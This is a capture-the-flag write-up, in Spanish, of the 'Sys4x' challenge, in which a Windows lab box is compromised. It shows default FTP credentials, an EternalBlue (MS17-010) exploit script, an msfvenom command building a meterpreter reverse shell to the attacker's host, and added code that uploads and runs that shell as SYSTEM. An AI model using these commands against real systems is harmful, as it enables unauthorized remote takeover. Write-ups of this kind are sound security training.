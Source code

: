 ### Sys4x - 200 Points
#### Exploit and gain root privileges on the box and look for the flag.txt inside the file system. You will have to proof that you have successfully exploited at least one service on the box with a self made exploit,.

##### Category: Hacking + Exploiting 
##### Solves: 5 

Esta máquina (192.168.0.13) era muy similar a FTxP (192.168.0.11), ya que tras acceder al servidor FTP con las credenciales “admin/admin”, vimos que el contenido era prácticamente el mismo. Aún y así, nos encontramos con la misma situación, no sabíamos donde estaba el archivo que contenía el flag y en esta ocasión se utilizaba “Sysax Multi Server” como servidor FTP, por lo que no se podía utilizar el mismo exploit que la vez anterior.

![sysax1](https://user-images.githubusercontent.com/38633962/42779670-5efe133a-8941-11e8-88e3-a87e9f70d0ac.png)

Tras intentar buscar vulnerabilidades en los diversos servicios publicados que nos permitieran acceso a la máquina, identificamos que el sistema Windows parecía ser vulnerable al “pack” de vulnerabilidades “EternalX” (MS17-010), en concreto a Eternalblue, por lo que procedimos a explotar dicha vulnerabilidad para conseguir ejecución de comandos en el sistema.

Como el sistema operativo parecía ser un WinXP/Win2000, utilizamos el exploit “zzz_exploit.py” (https://github.com/worawit/MS17-010), el cual permite la ejecución de comandos con permisos de SYSTEM a través de SMB en estos sistemas.

Puesto que el exploit por defecto tan solo crea un archivo txt en el sistema como POC, se realizaron algunos pasos extra para conseguir nuestro objetivo. 

1. Crear un ejecutable de meterpreter como servicio de Windows que nos abra una shell reversa con nuestro equipo a través del módulo “multi/handler” de Metasploit:

      ```msfvenom -f exe-service -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=4455 > met_101_4455```

2. Se añadió la siguiente línea a la función “smb_pwn” de “zzz_exploit.py” para subir nuestra shell reversa al servidor vulnerable, en concreto a “C:\”:
	
      ```smb_send_file(smbConn, <path_de_met_101_4455.exe>", 'C', '/met_101_4455.exe')```

3. Se añadió la siguiente línea a la función “smb_pwn” de “zzz_exploit.py” para ejecutar la shell reversa:
	
      ```service_exec(conn, r'cmd /c c:\met_101_4455.exe')```

Una vez ejecutado nuestro exploit y conseguida la shell reversa, se localizó el archivo que contenía el flag en “C:\sysaxflag.txt”.

![sysax2](https://user-images.githubusercontent.com/38633962/42779786-af0c058a-8941-11e8-890a-c37280fbea43.png)
